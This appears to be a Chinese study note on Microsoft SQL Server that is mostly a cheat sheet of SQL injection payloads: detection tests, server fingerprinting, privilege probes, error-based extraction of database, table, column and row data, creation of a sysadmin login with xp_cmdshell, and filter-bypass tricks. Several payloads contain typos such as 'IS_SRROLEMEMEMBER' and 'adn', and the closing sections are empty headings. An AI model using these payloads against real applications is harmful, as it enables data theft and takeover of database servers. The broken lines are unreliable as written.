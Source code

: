 #### sqlserver数据库介绍及操作

默认端口1433；

创建一个数据库，默认创建在路径中web.mdf;

任务，分离，删除链接，然后把创建的文件在默认路径中删掉就可以了；



1. 基础的查询语句：增删改查

   ` select * from table`

2. 数据库权限

   sa、db、public权限

   sa权利很大，db相当于普通票哪个用户，public相当于windows的guest用户；

#### 连接调用sqlserver数据库

调用数据库的代码，一般写在配置文件里面config, conn；

```vbscript
<%
    set conn = server.createobject("adodb.connecton")
    conn.open "provider=sqloledb;source=local;uid=sa;pwd=***;database=database-name"
 %>
```

可能在的目录：==inc==/conn.asp，config.asp，web.config

#### sqlserver注入

判断是否有注入

```mssql
1. 判断是否有注入  (会有变化)
and 1=1
and 1=2
/
-0
/*判断注入的方法是一样的*/

2. 初步判断是否是mssql
and user>0

3. 判断数据库系统
and (select count(*) from sysobjects)>0    /*mssql的系统表*/
and (select count(*) from msysobjects)>0   /*access的系统表*/

4. 注入参数是字符
and 

10. 测试权限结构   返回正常的话，就是对应的权限
and 1=(select IS_SRVROLEMEMBER('sysadmin'));--
and 1=(select IS_SRROLEMEMEMBER('serveradmin'));--
and 1=(select IS_SRROLEMEMEMBER('setupadmin'));--
and 1=(select IS_SRROLEMEMEMBER('securityadmin'));--
and 1=(select IS_SRROLEMEMEMBER('diskadmin'));--
and 1=(select IS_SRROLEMEMEMBER('bulkadmin'));--
adn 1=(select IS_MEMBER('db_owner'));--

11. 添加mssql和系统账户
exec master.dbo.sp_addlogin username;--
exec master.dbo.sp_password null, username,password;--
exec master.dbo.sp_addsrvrolemember sysadmin username;--
exec master.dbo.xp_cmdshell username;--
.....

```

- 手工判断注入

  `http://testasp.vulnweb.com/showforum.asp?id=0 '` 

- 获取数据库信息

  `id=1 and 1=(select @@version)  # 因为后面的查询结果是字符类型，转换失败，就爆出错误了`

  `id=@@version   # 等价` 

- 获取当前数据库名称

  `id=1 and 1=(select db_name())  # 也是由于类型不匹配`

- 获取第一个用户数据库

  `and 1=(select top 1 name from master..sysdatabases where dbid>4)`

  *获取从上往下数的第一行的name属性*

  - 判断接下来的数据库:

  `and 1=(select top 1 name from master..sysdatabases where dbid>5)` or

  `and 1=(select top 1 name from master..sysdatabases where dbid>4 and name<>'web')`

  会爆出错误：将nvarchar值'bookmis'转换为int类型时失败

  - ==非常牛逼的一个方法==

  `and 1=(select name from master..sysdatabases for xml path) # 把所有的数据库名按照xml列出`

- 获取第一张表

  `?id=1 and 1=(select top 1 name from sysobjects where xtype='u') #原理就是mssql报错信息`

- 获取表readers的列

  `?id=1 and 1=(select top 1 name from syscolumns where id=(select id from sysobjects where name='readers'))`

- 获取表的数据

  `?id=1 and 1=(select top 1 Reader_id from readers)`

有过滤，如何绕过？

​	比如大小写转换，%0a、+、/**/代替空格； *+ 为什么可以代替空格？*

<!--
     那如果前端做的比较好，不显示报错信息呢？
     syscolumns、sysdatabases 、sysobjects 具体代表了什么？
-->

#### sqlserver另类玩法

#### sqlserver差异备份、完全备份、权限入侵
